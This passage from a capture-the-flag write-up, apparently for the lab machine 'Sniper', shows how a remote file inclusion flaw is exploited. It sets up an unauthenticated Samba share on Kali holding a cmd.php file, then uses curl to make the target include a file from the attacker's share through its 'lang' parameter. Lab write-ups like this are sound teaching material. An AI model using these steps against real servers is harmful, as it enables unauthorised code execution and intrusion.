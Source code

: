 That demonstrates that the server is willing to contact me, but I couldn’t get
the authentication working (if you know how I can configure my SMB share to
remove all auth, let me know).

On Kali, I tried `smbserver.py`, and again, Sniper connected to me, but failed
to authenticate:

    
    
    [*] Incoming connection (10.10.10.151,57159)
    [*] AUTHENTICATE_MESSAGE (\,SNIPER)
    [*] User \SNIPER authenticated successfully
    [*] :::00::4141414141414141
    [*] Handle: [Errno 104] Connection reset by peer
    [*] Closing down connection (10.10.10.151,57159)
    [*] Remaining connections []
    

However, with Samba, I got it to work. I set `/etc/samba/smb.conf` to:

    
    
    [SHARE]
    path = /srv/samba/
    browseable = yes
    read only = no
    create mask = 777
    guest ok = yes
    force user = nobody
    force group = nogroup
    

The started the service:

    
    
    root@kali# service smbd restart
    root@kali# service nmbd restart
    

Permissions are important here. It’s important that the Samba process (running
as nobody) can read the file:

    
    
    root@kali# find srv/ -ls
      2359297      4 drwxr-xr-x   4 root     root         4096 srv/
      2359299      4 drwxrwxrwx   2 nobody   nogroup      4096 srv/samba
      2359300      4 -rwxrwxrwx   1 nobody   nogroup        35 srv/samba/cmd.php
      2359301     48 -rwxrwxrwx   1 root     root        45272 srv/samba/test.txt
    

`text.txt` is just a text file with the string `0xdf` in it. Now I can include
it and see the results:

    
    
    root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\\10.10.14.6\share\test.txt' | sed -n '/<\/html>/,/<\/body>/p'
    </html>
    0xdf
    </body>
    </html>
    